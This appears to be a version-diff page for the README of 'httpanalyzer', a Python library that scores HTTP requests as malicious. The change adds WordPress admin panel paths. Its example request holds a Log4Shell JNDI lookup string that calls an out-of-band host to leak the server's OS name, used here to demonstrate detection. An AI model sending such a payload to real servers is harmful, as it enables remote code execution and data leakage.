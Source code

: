 ```diff
@@ -52,22 +52,22 @@
      'Accept-Encoding': 'gzip, deflate, br',
      'Accept-Language': 'en-US,en;q=0.5',
      'Connection': 'keep-alive',
      'Host': '127.0.0.1:80',
      'User-Agent': 'curl/7.82.0'},
     '159.223.205.51',
     '/api/geojson?url=${jndi:ldap://${sys:os.name}.cd387hid68000106u4rtc.oast.me}',
-    ['wp-content', 'wp-config', 'wp-includes']
+    ['wp-content', 'wp-config', 'wp-includes', 'wp-admin', 'admin']
 )
 print(f"Malicious rating: {instance.malicious() * 100}%")
 ```
 
 ### Admin Panels
 
-To reduce the amount of false positives, specify all admin panels you are using. For WordPress this would be `['wp-content', 'wp-config', 'wp-includes']`.
+To reduce the amount of false positives, specify all admin panels you are using. For WordPress this would be `['wp-content', 'wp-config', 'wp-includes', 'wp-admin', 'admin']`.
 
 ### Flask
 
 httpanalyzer natively supports flask request objects:
 
 ```
 instance = httpanalyzer.FlaskRequest(flask.request)
```

#### html2text {}

```diff
@@ -9,13 +9,14 @@
 admin_panels) ``` Print the malicious rating: ``` print(instance.malicious())
 ``` ### Example ``` import httpanalyzer instance = httpanalyzer.Request(
 {'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/
 avif,image/webp,*/*;q=0.8', 'Accept-Encoding': 'gzip, deflate, br', 'Accept-
 Language': 'en-US,en;q=0.5', 'Connection': 'keep-alive', 'Host': '127.0.0.1:
 80', 'User-Agent': 'curl/7.82.0'}, '159.223.205.51', '/api/geojson?url=${jndi:
 ldap://${sys:os.name}.cd387hid68000106u4rtc.oast.me}', ['wp-content', 'wp-
-config', 'wp-includes'] ) print(f"Malicious rating: {instance.malicious() *
-100}%") ``` ### Admin Panels To reduce the amount of false positives, specify
-all admin panels you are using. For WordPress this would be `['wp-content',
-'wp-config', 'wp-includes']`. ### Flask httpanalyzer natively supports flask
-request objects: ``` instance = httpanalyzer.FlaskRequest(flask.request) ``` ##
-Dependencies Python 3.6 or newer is required. Older versions do not work.
+config', 'wp-includes', 'wp-admin', 'admin'] ) print(f"Malicious rating:
+{instance.malicious() * 100}%") ``` ### Admin Panels To reduce the amount of
+false positives, specify all admin panels you are using. For WordPress this
+would be `['wp-content', 'wp-config', 'wp-includes', 'wp-admin', 'admin']`. ###
+Flask httpanalyzer natively supports flask request objects: ``` instance =
+httpanalyzer.FlaskRequest(flask.request) ``` ## Dependencies Python 3.6 or
+newer is required. Older versions do not work.
```
